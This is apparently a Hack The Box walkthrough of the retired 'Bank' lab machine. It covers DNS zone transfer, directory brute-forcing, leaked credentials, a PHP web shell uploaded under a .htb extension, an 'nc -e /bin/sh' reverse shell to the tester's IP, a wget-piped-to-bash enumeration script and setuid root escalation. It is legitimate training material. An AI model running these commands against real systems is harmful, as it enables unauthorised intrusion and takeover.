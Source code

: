 # Bank

This is the write-up for the box Bank that got retired at the 22nd September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.29    bank.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bank.nmap 10.10.10.29
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking DNS (Port 53)

Lets enumerate some DNS information with _nslookup_:
```markdown
nslookup

> SERVER 10.10.10.29

Default server: 10.10.10.29
Address: 10.10.10.29#53

> 127.0.0.1

1.0.0.127.in-addr.arpa  name = localhost.

> 10.10.10.29

** server can't find 29.10.10.10.in-addr.arpa: NXDOMAIN

> bank.htb

Server:         10.10.10.29
Address:        10.10.10.29#53

Name:   bank.htb
Address: 10.10.10.29
```

Reverse lookup is not active and the hostname _bank.htb_ responds to the IP.
Lets try a **DNS Zone Transfer** with _dig_:
```markdown
dig axfr bank.htb @10.10.10.29

# Output
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29
ns.bank.htb.            604800  IN      A       10.10.10.29
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
```

There are some subdomains that we will put into our hosts file.

## Checking HTTP (Port 80)

On the web page it displays the default Apache2 Ubuntu installation page.
As we found out, there is a domain name, we can browse to the web page with the domain name _bank.htb_ and we get a login page.
This is called **Virtual Host Routing**.

![Bank login page](bank_login.png)

We use **Gobuster** to enumerate hidden paths on this page with the PHP extension:
```markdown
gobuster -u http://bank.htb/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

There are these directories that could be interesting:
- /uploads (Status: 301)
- /inc (Status: 301)
- /index.php (Status: 302)
- /support.php (Status: 302)
- /balance-transfer (Status: 200)

### Method 1 - Ignore redirects

With Burpsuite it is possible to see the web pages that redirect us by changing the HTTP response code from _302 Found_ to HTTP code _200 OK_.

This is the index.php page:

![Bank index page](bank_index.png)

This is the support.php page:

![Bank support page](bank_support-1.png)

We can upload code on the support.php to get command execution on the box.


### Method 2 - Intended way

The directory _balance-transfers_ has many of these files in it:

![Bank balance-transfers page](bank_balance-transfers.png)

There are around 1000 of these files. Looking at one of them they hold this content:
```markdown
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

Lets download all of them, to examine them easier in the shell.
```markdown
wget -r http://bank.htb/balance-transfer/
```

By sorting them by file size it becomes clear that most of them have either 583, 584 or 585 bytes except for one that has 257 bytes.
```markdown
wc -c \*.acc | sort -n -r
```

The file with the name **68576f20e9732f1b2edc4df5b8533230.acc** has only 257 bytes and has this content:
```markdown
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

When trying this credentials on the login page we get logged in.

There is a _Support_ page where it is possible to upload files.

![Bank support page](bank_support-2.png)

The page allows images but doesn't allow PHP files to be uploaded. Looking at the source there is a comment that says:
> [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]

So lets change the extension of our file to _.htb_ instead.

![File upload](bank_file-upload.png)

The uploaded files are in the center of the support page and clicking on the attachment to browse to that file. Now we can execute commands:
```markdown
http://bank.htb/uploads/logo.htb?cmd=whoami
```

This gives us the output that we are _www-data_. Lets start a reverse shell with this command execution.
```markdown
http://bank.htb/uploads/logo.htb?cmd=nc%20-e%20/bin/sh%2010.10.14.23%209001
```

After a short while the request gets sent to my listener that waits for connections on my IP and port 9001 and started a reverse shell as www-data!

## Privilege Escalation

When looking at the PHP files from the server, there are credentials for MySQL in the file **/var/www/bank/inc/user.php**:
```php
# (...)
function getUsername($email){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $email = $mysql->real_escape_string($email);
                $result = $mysql->query("SELECT * FROM users WHERE email = '$email'");
                $row = $result->fetch_assoc();
                return $row['username'];
# (...)
```

We can login into MySQL but don't find anything important and starting a shell from there won't start a root shell:
```markdown
mysql -u root -p


mysql> \! /bin/sh
```

The password won't work on the _chris_ nor the _root_ user, so we will execute any Linux enumeration script to get an attack surface.
```markdown
wget http://10.10.14.23/LinEnum.sh | bash
```

Looking at the results, there is a _setuid bit_ set on the **/var/htb/bin/emergency** binary that is not a default Linux binary.
When executing this, we drop into a shell with the effective user ID of root and finished the box!
